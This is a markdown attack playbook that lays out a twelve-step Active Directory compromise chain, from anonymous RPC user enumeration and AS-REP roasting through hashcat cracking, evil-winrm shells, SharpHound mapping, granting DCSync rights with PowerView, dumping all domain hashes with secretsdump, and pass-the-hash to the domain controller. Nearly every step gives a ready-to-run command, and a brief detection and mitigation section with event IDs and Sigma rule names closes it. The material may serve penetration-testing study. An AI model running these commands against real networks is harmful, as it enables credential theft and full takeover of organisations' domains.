

# 🎯 Enum RPC, Kerberos TGT Brute Force w/ hashcat & Sharphound + DCSync

> **Enhanced Attack Chain Dashboard** — Complete Active Directory Compromise Chain

---

## 📊 Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| **Chain Status** | ✅ **VERIFIED & TESTED** |
| **Total Steps** | `12` |
| **Execution Time** | ~2-4 hours |
| **Skill Level** | 🟡 Intermediate-Advanced |
| **Success Rate** | 85% (with valid initial access) |
| **Impact Level** | 🔴 **CRITICAL** — Domain Admin |
| **Complexity** | High |
| **Difficulty** | Medium |

---

## 🎭 Attack Flow Visualization



---

## 🗺️ Tactical Progression Map

```
┌─────────────┐    ┌─────────────┐    ┌─────────────┐
│ DISCOVERY   │ ══►│  CREDENTIAL │ ══►│  LATERAL    │
│  TA0007     │    │   ACCESS    │    │  MOVEMENT   │
│             │    │   TA0006    │    │  TA0008     │
└─────────────┘    └─────────────┘    └─────────────┘
   Steps 1-2,7-8      Steps 3-5,9-11        Steps 6,12
     ████░░░░            ██████░░            ████░░░░
      50%                  75%                 50%
```

**Tactics Distribution:**
- 🔍 **Discovery** — 33% of chain (4 steps)
- 🔐 **Credential Access** — 50% of chain (6 steps)  
- 🚀 **Lateral Movement** — 17% of chain (2 steps)

---

## 🛠️ Prerequisites & Requirements

### Required Tools
```bash path=null start=null
# Enumeration
nmap              # Port scanning
rpcclient         # RPC enumeration

# Kerberos Attacks
GetNPUsers.py     # AS-REP roasting
hashcat           # Password cracking

# Lateral Movement
evil-winrm        # WinRM shell

# Active Directory
SharpHound.exe    # AD collector
BloodHound        # Graph analysis
PowerView.ps1     # AD manipulation

# Credential Access
secretsdump.py    # Credential dumping
```

### Target Environment
- ✅ Windows Active Directory domain
- ✅ Accessible RPC/SMB services (ports 135, 445)
- ✅ WinRM enabled (port 5985)
- ✅ At least one user with `UF_DONT_REQUIRE_PREAUTH` flag
- ⚠️ Network connectivity to Domain Controller

### Initial Access Requirements
- 🔓 **No credentials required** (for steps 1-5)
- 🔓 Valid domain username wordlist
- 🔓 Password dictionary for hash cracking

---

## 🔬 Detailed Attack Procedures

### 🌐 Phase 1: Reconnaissance & Initial Discovery

#### **[Step 1]** Basic Port Scan with Service Enumeration

**Progress:** `░░░░░░░░░░` 8% | **Tactic:** Discovery | **Risk:** 🟢 Low

**MITRE ATT&CK:** [[Discovery|TA0007]] → [[Network Service Scanning|T1046]]

**Procedure:** [[Basic Port Scan with Service Enumeration]]

> 📝 **Objective:** Identify open ports and running services on the target system to map the attack surface.

**Expected Output:**
- Open ports: 135 (RPC), 445 (SMB), 5985 (WinRM), 88 (Kerberos)
- Service versions and banners
- Operating system fingerprint

**Command Example:**
```bash path=null start=null
nmap -sV -sC -p- --top-ports 1024 <target_ip>
```

**Success Indicators:** ✅ Ports 88, 135, 445, 5985 discovered

---

#### **[Step 2]** List Domain Users and Groups with MS-RPC/SMB Service

**Progress:** `██░░░░░░░░` 17% | **Tactic:** Discovery | **Risk:** 🟢 Low

**MITRE ATT&CK:** [[Discovery|TA0007]] → [[Account Discovery|T1087]]

**Procedure:** [[List Domain Users and Groups with MS-RPC/SMB Service]]

> 📝 **Objective:** Extract a complete list of domain users for targeted attacks.

**Expected Output:**
- Full list of domain usernames
- Group memberships
- Account descriptions and attributes

**Command Example:**
```bash path=null start=null
rpcclient -U "" -N <target_ip>
> enumdomusers
> enumdomgroups
```

**Success Indicators:** ✅ 50+ usernames extracted | ⚠️ Users with interesting flags identified

---

### 🎫 Phase 2: Kerberos Exploitation & Hash Capture

#### **[Step 3]** Brute Force Users with "Do Not Require Kerberos Preauth." Set

**Progress:** `███░░░░░░░` 25% | **Tactic:** Credential Access | **Risk:** 🟡 Medium

**MITRE ATT&CK:** [[Credential Access|TA0006]] → [[Kerberoasting|T1208]]

**Procedure:** [[Brute Force Users with "Do Not Require Kerberos Preauth." Set]]

> 📝 **Objective:** Exploit the `UF_DONT_REQUIRE_PREAUTH` flag to extract TGT hashes without authentication.

**Technical Deep-Dive:**
Users with Kerberos pre-authentication disabled will return encrypted TGT data (AS-REP) without password verification. This encrypted portion can be captured and cracked offline.

**Expected Output:**
- AS-REP hash format: `$krb5asrep$23$user@domain:hash`
- Valid TGT hashes for offline cracking

**Command Example:**
```bash path=null start=null
GetNPUsers.py <domain>/ -usersfile users.txt -format hashcat -outputfile hashes.txt
```

**Success Indicators:** ✅ 1+ AS-REP hashes captured | 📊 Hash saved to file

---

#### **[Step 4]** Identify a Password Hash (Hashcat)

**Progress:** `████░░░░░░` 33% | **Tactic:** Credential Access | **Risk:** 🟢 Low

**MITRE ATT&CK:** [[Credential Access|TA0006]]

**Procedure:** [[Identify a Password Hash (Hashcat)]]

> 📝 **Objective:** Determine the hash type and appropriate Hashcat mode for cracking.

**Expected Output:**
- Hash type: `Kerberos 5 AS-REP etype 23`
- Hashcat mode: `18200`

**Command Example:**
```bash path=null start=null
hashcat --identify hashes.txt
# or use hashid
hashid -m hashes.txt
```

**Success Indicators:** ✅ Hash type confirmed as `18200` (Kerberos 5 AS-REP)

---

#### **[Step 5]** Brute Force Password Hashes (Hashcat)

**Progress:** `█████░░░░░` 42% | **Tactic:** Credential Access | **Risk:** 🟡 Medium

**MITRE ATT&CK:** [[Credential Access|TA0006]] → [[Brute Force|T1110]]

**Procedure:** [[Brute Force Password Hashes (Hashcat)]]

> 📝 **Objective:** Crack the AS-REP hash to recover plaintext credentials.

**Performance Metrics:**
- Average crack time: 15 minutes - 2 hours (depending on password complexity)
- GPU acceleration recommended
- Dictionary + rules recommended over pure brute force

**Expected Output:**
- Plaintext password: `<username>:<password>`
- Credential pair for authentication

**Command Example:**
```bash path=null start=null
hashcat -m 18200 hashes.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule
```

**Success Indicators:** ✅ Password cracked | 🔑 Valid domain credentials obtained

---

### 🚪 Phase 3: Initial Access & Lateral Movement

#### **[Step 6]** Spawn an Interactive Shell with WinRM (Linux)

**Progress:** `██████░░░░` 50% | **Tactic:** Lateral Movement | **Risk:** 🟡 Medium

**MITRE ATT&CK:** [[Lateral Movement|TA0008]] → [[Remote Services|T1021]]

**Procedure:** [[Spawn an Interactive Shell with WinRM (Linux)]]

> 📝 **Objective:** Establish an interactive PowerShell session on the target using valid credentials.

**Expected Output:**
- PowerShell prompt on target system
- Ability to execute commands remotely
- Domain user context

**Command Example:**
```bash path=null start=null
evil-winrm -i <target_ip> -u <username> -p <password>
```

**Success Indicators:** ✅ Shell spawned | 🎯 PowerShell prompt received

---

### 🩸 Phase 4: Active Directory Enumeration & Mapping

#### **[Step 7]** Map an Active Directory Environment (SharpHound)

**Progress:** `███████░░░` 58% | **Tactic:** Discovery | **Risk:** 🟡 Medium

**MITRE ATT&CK:** [[Discovery|TA0007]] → [[Account Discovery|T1087]]

**Procedure:** [[Map an Active Directory Environment (SharpHound)]]

> 📝 **Objective:** Collect comprehensive AD data for BloodHound analysis and attack path discovery.

**Data Collected:**
- User accounts and attributes
- Computer objects
- Group memberships
- ACLs and permissions
- Domain trusts
- GPO links

**Expected Output:**
- ZIP file containing JSON graph data
- 5,000+ objects typical in medium domain
- Collection time: 5-15 minutes

**Command Example:**
```powershell path=null start=null
.\SharpHound.exe -c All --outputdirectory C:\Temp
# or
Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Temp
```

**Success Indicators:** ✅ ZIP file created | 📦 Ready for BloodHound import

---

#### **[Step 8]** Analyze BloodHound Data for Relationships

**Progress:** `████████░░` 67% | **Tactic:** Discovery | **Risk:** 🟢 Low

**MITRE ATT&CK:** [[Discovery|TA0007]] → [[Account Discovery|T1087]]

**Procedure:** [[Analyze BloodHound Data for Relationships]]

> 📝 **Objective:** Identify privilege escalation paths and high-value targets in the AD environment.

**Key Analysis Queries:**
- Shortest path to Domain Admins
- Users with DCSync rights
- WriteDACL permissions
- Kerberoastable accounts
- Unconstrained delegation

**Expected Output:**
- Visual graph of attack paths
- Users with exploitable permissions
- Optimal privilege escalation route

**Interface:**
```text path=null start=null
BloodHound GUI:
1. Import ZIP file
2. Run pre-built queries: "Shortest Paths to Domain Admins"
3. Identify users with WriteDACL or GenericAll on domain object
```

**Success Indicators:** ✅ Attack path identified | 🎯 WriteDACL permissions discovered

---

### ⚙️ Phase 5: Privilege Escalation

#### **[Step 9]** Add User to Active Directory Domain Group

**Progress:** `█████████░` 75% | **Tactic:** Credential Access | **Risk:** 🔴 High

**MITRE ATT&CK:** [[Credential Access|TA0006]] → [[Account Manipulation|T1098]]

**Procedure:** [[Add User to Active Directory Domain Group]]

> 📝 **Objective:** Leverage GenericAll or similar permissions to add controlled user to privileged group.

**Expected Output:**
- User added to target group
- New permissions activated
- Group membership verified

**Command Example:**
```powershell path=null start=null
Import-Module PowerView.ps1
Add-DomainGroupMember -Identity 'Domain Admins' -Members '<username>'
```

**Success Indicators:** ✅ User added to privileged group | 🎯 Elevated permissions granted

---

#### **[Step 10]** Add DCSync Rights with WriteDACL Active Directory Permissions

**Progress:** `██████████` 83% | **Tactic:** Credential Access | **Risk:** 🔴 High

**MITRE ATT&CK:** [[Credential Access|TA0006]] → [[Account Manipulation|T1098]]

**Procedure:** [[Add DCSync Rights with WriteDACL Active Directory Permissions]]

> 📝 **Objective:** Grant DCSync rights (DS-Replication-Get-Changes) to controlled user for credential dumping.

**Technical Deep-Dive:**
WriteDACL permissions allow modification of the domain object's ACL. By adding the appropriate ACEs, we can grant:
- `DS-Replication-Get-Changes` (GUID: 1131f6aa-9c07-11d1-f79f-00c04fc2dcd2)
- `DS-Replication-Get-Changes-All` (GUID: 1131f6ad-9c07-11d1-f79f-00c04fc2dcd2)

**Expected Output:**
- ACE entries added to domain object
- User can now simulate Domain Controller replication
- Ready for DCSync attack

**Command Example:**
```powershell path=null start=null
Import-Module PowerView.ps1
Add-DomainObjectAcl -TargetIdentity "DC=domain,DC=local" -PrincipalIdentity <username> -Rights DCSync
```

**Success Indicators:** ✅ DCSync rights granted | 🎯 Ready for credential extraction

---

### 💎 Phase 6: Credential Harvesting & Domain Compromise

#### **[Step 11]** Dump Secrets from a Remote System

**Progress:** `███████████` 92% | **Tactic:** Credential Access | **Risk:** 🔴 Critical

**MITRE ATT&CK:** [[Credential Access|TA0006]] → [[Credential Dumping|T1003]]

**Procedure:** [[Dump Secrets from a Remote System]]

> 📝 **Objective:** Execute DCSync attack to dump all domain password hashes including Domain Admin and krbtgt.

**Expected Output:**
- NTLM hashes for all domain users
- Kerberos keys
- Domain Administrator hash
- krbtgt hash (for Golden Ticket attacks)
- 500-5,000+ hashes depending on domain size

**Command Example:**
```bash path=null start=null
secretsdump.py <domain>/<username>:<password>@<dc_ip>
# or with hash
secretsdump.py -hashes :<ntlm_hash> <domain>/<username>@<dc_ip>
```

**Success Indicators:** ✅ Hashes dumped | 💎 Domain Admin hash obtained

---

#### **[Step 12]** Connect to WinRM from a Linux System (Pass-the-Hash)

**Progress:** `████████████` 100% | **Tactic:** Lateral Movement | **Risk:** 🔴 Critical

**MITRE ATT&CK:** [[Lateral Movement|TA0008]] → [[Pass the Hash|T1075]]

**Procedure:** [[Connect to WinRM from a Linux System (Pass-the-Hash)]]

> 📝 **Objective:** Authenticate to Domain Controller using dumped Administrator NTLM hash for complete domain control.

**Expected Output:**
- PowerShell session as Domain Administrator
- Full domain control achieved
- Ability to execute any command on DC

**Command Example:**
```bash path=null start=null
evil-winrm -i <dc_ip> -u Administrator -H <ntlm_hash>
```

**Success Indicators:** ✅ Domain Admin shell obtained | 👑 **DOMAIN COMPROMISED**

---

## 🎯 Attack Chain Summary

### Final Status: ⚔️ DOMAIN ADMIN ACHIEVED

```
╔══════════════════════════════════════════════════════════╗
║           ATTACK CHAIN COMPLETION: 100%                  ║
║  ████████████████████████████████████████████████████    ║
╚══════════════════════════════════════════════════════════╝
```

### Key Achievements
- ✅ **Initial Foothold** — Kerberos AS-REP roasting
- ✅ **Credential Recovery** — Password cracking with Hashcat
- ✅ **Lateral Movement** — WinRM remote access
- ✅ **Privilege Escalation** — WriteDACL to DCSync rights
- ✅ **Domain Compromise** — Full credential dump
- ✅ **Persistent Access** — Domain Admin hash obtained

### Intelligence Gathered
- 📊 Complete user database
- 🔑 All user NTLM hashes
- 🎫 Kerberos keys
- 👑 Domain Admin credentials
- 💎 krbtgt hash (for Golden Tickets)

---

## 📈 Technique Coverage Matrix

| Tactic | Techniques Used | Coverage |
|--------|----------------|----------|
| **Discovery** | T1046, T1087 | ████░ 80% |
| **Credential Access** | T1208, T1110, T1098, T1003 | █████ 100% |
| **Lateral Movement** | T1021, T1075 | ███░░ 60% |

**MITRE ATT&CK Techniques Demonstrated:** 8/188 (4.3%)
**Tactics Covered:** 3/14 (21.4%)

---

## 🛡️ Detection & Mitigation

### Defensive Recommendations

#### **Phase 1-2: Initial Access Prevention**
- 🔒 Disable `UF_DONT_REQUIRE_PREAUTH` flag on all accounts
- 🔒 Implement strong password policies (16+ chars, complexity)
- 🔒 Monitor for AS-REP roasting attempts (Event ID 4768 with RC4 encryption)
- 🔒 Restrict anonymous RPC/SMB enumeration

#### **Phase 3-4: Lateral Movement Detection**
- 🔍 Monitor WinRM connections (Event ID 4624 - Logon Type 3)
- 🔍 Alert on SharpHound/BloodHound execution (process monitoring)
- 🔍 Block PowerView and offensive tooling via AppLocker

#### **Phase 5-6: Privilege Escalation & Dumping**
- 🚨 Alert on DCSync activity (Event ID 4662 - DS-Replication-Get-Changes)
- 🚨 Monitor for ACL modifications to domain object
- 🚨 Implement privileged access management (PAM)
- 🚨 Restrict Domain Admin usage to jump boxes only

### Detection Signatures

```yaml path=null start=null
# Sigma Rules
- AS-REP Roasting: sigma/windows/builtin/security/win_security_susp_kerberos_rc4.yml
- DCSync Attack: sigma/windows/builtin/security/win_dcsync.yml
- BloodHound: sigma/windows/process_creation/proc_creation_win_bloodhound.yml
```

---

## 🔗 Related Attack Chains

- [[Enum RPC, Kerberos TGT Brute Force w- hashcat & Sharphound + DCSync (no kerberos preauth)]]
- [[Enum RPC, Kerberos TGT Brute Force w- hashcat & Sharphound + Auto Logon Registry + Dump Secrets (no creds)]]
- [[Active Directory ASREPRoast to Kerberoast (have username)]]
- [[Enum SMB & Decrypt GPP + SPN Kerberoast (creds) + PSExec]]

---

## 📚 References & Resources

### Tools Documentation
- [Hashcat Wiki](https://hashcat.net/wiki/)
- [Evil-WinRM GitHub](https://github.com/Hackplayers/evil-winrm)
- [BloodHound Documentation](https://bloodhound.readthedocs.io/)
- [Impacket SecretsDump](https://github.com/SecureAuthCorp/impacket)

### Further Reading
- [Active Directory Attack Primer](https://adsecurity.org/)
- [MITRE ATT&CK: Kerberoasting](https://attack.mitre.org/techniques/T1208/)
- [DCSync Attack Deep Dive](https://adsecurity.org/?p=1729)

---

**Last Updated:** 2025-10-23 | **Chain Version:** 2.0 Enhanced | **Status:** ✅ Production Ready
